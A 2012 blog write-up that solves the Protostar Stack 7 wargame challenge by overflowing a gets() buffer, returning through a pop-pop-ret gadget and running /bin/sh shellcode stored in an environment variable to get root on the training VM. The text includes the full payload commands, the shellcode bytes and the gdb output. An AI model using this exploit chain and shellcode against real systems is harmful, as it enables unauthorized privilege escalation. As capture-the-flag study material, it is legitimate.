 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 7"
date: 2012-01-09T18:36:00-05:00
comments: true
categories:
 - ret2text
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Welcome everyone to 2012! I took a bit of a break during these holidays, and am just starting to get back going. 

[This challenge](http://exploit-exercises.com/protostar/stack7) was very interesting to me.  I figured it would build off of the previous one.  However, it was its own standalone challenge. 

<!-- more -->

We are given the following code to the stack7 executable: 


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
 char buffer[64];
 unsigned int ret;

 printf("input path please: "); fflush(stdout);

 gets(buffer);

 ret = __builtin_return_address(0);

 if((ret &amp; 0xb0000000) == 0xb0000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
 }

 printf("got path %s\n", buffer);
 return strdup(buffer);
}

int main(int argc, char **argv)
{
 getpath();



}
```
From tinkering with the stack7 executable, I knew I was going to do a stack overflow, and somehow needed to execute code from the stack.  However, similar to the previous challenge, there was a filter on my return address, making it so I couldn't just jump to an address in the stack.  This meant figuring out a way around it. 

Using the note about this being a "return to .text" exploit, I started reading up.  This is a type of exploit that uses part of the executable, albeit even a string to execute as code, because the same characters are also x86 assembler instructions.  So I went about trying to find some code that would let me essentially, "jmp esp", or jump to the stack pointer, where I would put my shellcode.  To do this, I did the following: 

```
mandreko@li225-134:~$ msfelfscan -j esp stack7
[stack7]
```

This was disappointing.  At first, I thought maybe I was not using msfelfscan correctly, and had to tinker a bit.  But it just turns out, that there is no "jmp esp" in stack7.  What a bummer.  However, on a whim, I tried to see if maybe another option to msfelfscan would work: 

```
mandreko@li225-134:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
```

This is great! Some results!  Now let's just pick one, and attempt to use it as the return address in our overflow.  I found that the EIP offset was 80 bytes, so I wired it up as so, and debugged it: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x100' > /home/user/file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

This is a good sign.  It is overwriting the EIP now with "C" values (0x43).  So now we just need to know where in the 100 "C"s the return address is going to.  To do that, I did similar process to finding an EIP offset: 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"' > /home/user/file

user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x33614132 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x33614132
8
```

I simply generated a unique string using pattern_create.rb to replace the 100 "C"s, and then used pattern_offset.rb to tell me the offset when gdb got a segmentation fault.  So now I know that the first 8 "C"s are just junk.  Just to verify this, I ran it again, a little differently: 

```
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "D"x8 . "E"x100' > file
user@protostar:~$ gdb ./stack7 --quiet
Reading symbols from /home/user/stack7...done.
(gdb) run < file
Starting program: /home/user/stack7 < file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCCDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```

This shows the 4 "D"s were properly placed, which proved to me that I was indeed going to need my buffer to look like:

```
| 80 bytes junk | pop-pop-ret | 8 bytes junk | address to execute |
```

Since it was actually going to execute the instructions at the last dword, I opted to put my shellcode in an environmental variable, since it was easy.  I again used the same [shellcode](http://www.exploit-db.com/exploits/13357) for dealing with gets() as I have in the last couple challenges: 

```
user@protostar:/opt/protostar/bin$ export SHELLCODE=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```
The next problem was to find out where the address would reside in memory.  I used getenvaddr.c again to show me the address. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```
Just to be sure, I went to the /opt/protostar/bin directory to do this, since I knew the address could change based on what folder I was in.  I used this to get the address of my SHELLCODE variable by doing the following: 

```
user@protostar:/opt/protostar/bin$ /home/user/getenvaddr SHELLCODE ./stack7
SHELLCODE will be at 0xbffff985
```
Using this address, I exploited the stack7 executable: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "C"x8 . "\x85\xf9\xff\xbf"' > /home/user/file
user@protostar:/opt/protostar/bin$ ./stack7 < /home/user/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA▒AAAAAAAAAAAA▒CCCCCCCC▒▒▒▒
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
#
```
There you have it, root access, and it was fairly easy.  This is the last challenge in the Protostar VM under the "Stack" category.  Next post you see should be a new category.